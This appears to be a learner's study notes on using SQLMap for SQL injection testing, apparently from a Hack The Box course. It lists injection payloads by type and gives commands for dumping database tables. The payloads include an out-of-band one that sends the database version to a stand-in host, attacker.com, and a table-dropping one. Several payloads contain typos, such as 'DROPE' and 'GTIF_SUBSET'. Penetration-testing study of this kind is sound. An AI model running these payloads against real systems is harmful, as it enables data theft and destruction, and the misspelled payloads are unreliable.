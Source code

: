 
To use SQLMap we can use : `python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5'`
To install SQLMap : 
``` shell
# For Linux
sudo apt install sqlmap

#For Windows
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git
```

## Types of SQLi
- **Boolean-based Blind SQL Injection** : `AND 1=1`
- **Error-based SQL Injection** : `AND GTIF_SUBSET(@@version,0)`
- **Union query based** : `UNION ALL SELECT 1,@@version,3`
- **Stacked Queries** : `; DROPE TABLE users`
- **Time-based Blind SQL Injection** : `AND 1=IF(2>1,SLEEP(5),0)`
- **Inline Queries** : `SELECT(SELECT @@version) from`
- **Out-of-band SQL Injection** : `LOAD_FILE(CONCAT('\\\',@@version,'.attacker.com\\README.txxt'))`

## Levels of Help Message Listing
- Basic Listing : `sqlmap -h`
- Advanced Listing: `sqlmap --hh`

Command used to run SQLMap : `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`

> Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.

## cURL Commands
One of the best and easiest ways to properly set up an SQLMap request against the specific target (i.e., web request with parameters inside) is by utilizing `Copy as cURL` feature from within the Network (Monitor) panel inside the Chrome, Edge, or Firefox Developer Tools: ![Network panel showing a GET request to www.example.com with a 404 status, and a context menu with options like 'Copy as cURL'.](https://academy.hackthebox.com/storage/modules/58/M5UVR6n.png)

By pasting the clipboard content (`Ctrl-V`) into the command line, and changing the original command `curl` to `sqlmap`, we are able to use SQLMap with the identical `curl` command:

Running SQLMap on an HTTP Request

```shell-session
ShibuShivansh@htb[/htb]$ sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

When providing data for testing to SQLMap, there has to be either a parameter value that could be assessed for SQLi vulnerability or specialized options/switches for automatic parameter finding (e.g. `--crawl`, `--forms` or `-g`).

## GET/POST Requests
For GET Request, we need to run the command : `sqlmap --url "https://domain.com"`

For POST Request, we need to run the command : `sqlmap 'http://www.example.com/' --data 'uid=1&name=test`
> Now here both the parameters `uid` and `name` will be tested, but if we need one of them to be tested then it should be like `uid1*&name=test`, so here UID must be tested.

## Full HTTP Request
Create a file named as `req.txt` and insert the HTTP Request Packet there. And then use the command : `sqlmap -r req.txt`

## Specifying a Cookie 
- Using a flag `--cookie`  : `sqlmap "http://www.example.com/" --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`
- Using a flag `-H/--header` : `sqlmap "http://www.example.com/" -H='Cookie:ab4530f4a7d10448457fa8b0eadac29c'`

**Specifying alternative HTTP Method :** `sqlmap -u www.target.com --data='id=1' --method PUT`


We should also use two flags to extract information : `--batch --dump`

`sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch`: In this command , `-p` specifies parameter to be tested, `--dump -T flag2` instructs SQLmap to dump (extract) all data from the table named flag2.

To store the traffic, we can use this command : `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`

To raise the verbosity of the scan, we can use the command : `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`

To use proxy as Burp we use the command : `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch --proxy 127.0.0.1:8080`

## Prefix/Suffix

There is a requirement for special prefix and suffix values in rare cases, not covered by the regular SQLMap run.  
For such runs, options `--prefix` and `--suffix` can be used as follows:

Code: bash

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```


## Level/Risk
- The option `--level` (`1-5`, default `1`) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
    
- The option `--risk` (`1-3`, default `1`) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).

#### Status Codes

For example, when dealing with a huge target response with a lot of dynamic content, subtle differences between `TRUE` and `FALSE` responses could be used for detection purposes. If the difference between `TRUE` and `FALSE` responses can be seen in the HTTP codes (e.g. `200` for `TRUE` and `500` for `FALSE`), the option `--code` could be used to fixate the detection of `TRUE` responses to a specific HTTP code (e.g. `--code=200`).

#### Titles

If the difference between responses can be seen by inspecting the HTTP page titles, the switch `--titles` could be used to instruct the detection mechanism to base the comparison based on the content of the HTML tag `<title>`.

#### Strings

In case of a specific string value appearing in `TRUE` responses (e.g. `success`), while absent in `FALSE` responses, the option `--string` could be used to fixate the detection based only on the appearance of that single value (e.g. `--string=success`).

#### Text-only

When dealing with a lot of hidden content, such as certain HTML page behaviors tags (e.g. `<script>`, `<style>`, `<meta>`, etc.), we can use the `--text-only` switch, which removes all the HTML tags, and bases the comparison only on the textual (i.e., visible) content.

#### Techniques

In some special cases, we have to narrow down the used payloads only to a certain type. For example, if the time-based blind payloads are causing trouble in the form of response timeouts, or if we want to force the usage of a specific SQLi payload type, the option `--technique` can specify the SQLi technique to be used.

For example, if we want to skip the time-based blind and stacking SQLi payloads and only test for the boolean-based blind, error-based, and UNION-query payloads, we can specify these techniques with `--technique=BEU`.

#### UNION SQLi Tuning

In some cases, `UNION` SQLi payloads require extra user-provided information to work. If we can manually find the exact number of columns of the vulnerable SQL query, we can provide this number to SQLMap with the option `--union-cols` (e.g. `--union-cols=17`). In case that the default "dummy" filling values used by SQLMap -`NULL` and random integer- are not compatible with values from results of the vulnerable SQL query, we can specify an alternative value instead (e.g. `--union-char='a'`).

Furthermore, in case there is a requirement to use an appendix at the end of a `UNION` query in the form of the `FROM <table>` (e.g., in case of Oracle), we can set it with the option `--union-from` (e.g. `--union-from=users`).  
Failing to use the proper `FROM` appendix automatically could be due to the inability to detect the DBMS name before its usage.


